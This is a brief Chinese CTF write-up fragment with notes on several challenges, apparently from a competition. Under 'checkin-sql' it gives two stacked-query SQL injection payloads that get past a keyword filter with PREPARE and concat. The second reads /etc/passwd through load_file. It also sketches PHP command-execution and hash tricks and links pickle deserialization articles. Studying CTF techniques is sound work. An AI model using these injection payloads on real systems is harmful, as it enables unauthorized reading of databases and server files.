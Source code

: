 ![](img/23330747dc1dfeb0b7ae9f86fedd87ec.png)

### 其他的题目的一些思路:

#### checkin-sql：

```
1';PREPARE hacker from concat('selec','t',' * from `0xDktb`');EXECUTE hacker; 
```

即可执行任意的sql语句，可以读任意文件

```
1';PREPARE hacker from concat('selec','t',' load','_file','(0x2f6574632f706173737764)');EXECUTE hacker; 
```

但。。。。找不到flag，写文件的话不知道是姿势错了还是写不进去，tcl

#### easyphp：

这题本地发现可以`${``}`执行任意命令，但有长度限制，6位一下命令执行网上一大堆，前面的admin密码直接变量覆盖，sha1使用数组失败，应该是爆破0e，没爆破出来Orz

## easy_flask2

[pickle反序列化的利用技巧总结](https://zhuanlan.zhihu.com/p/361349643)
[pickle反序列化初探](https://xz.aliyun.com/t/7436)
[Python pickle 反序列化实例分析](https://www.anquanke.com/post/id/188981)
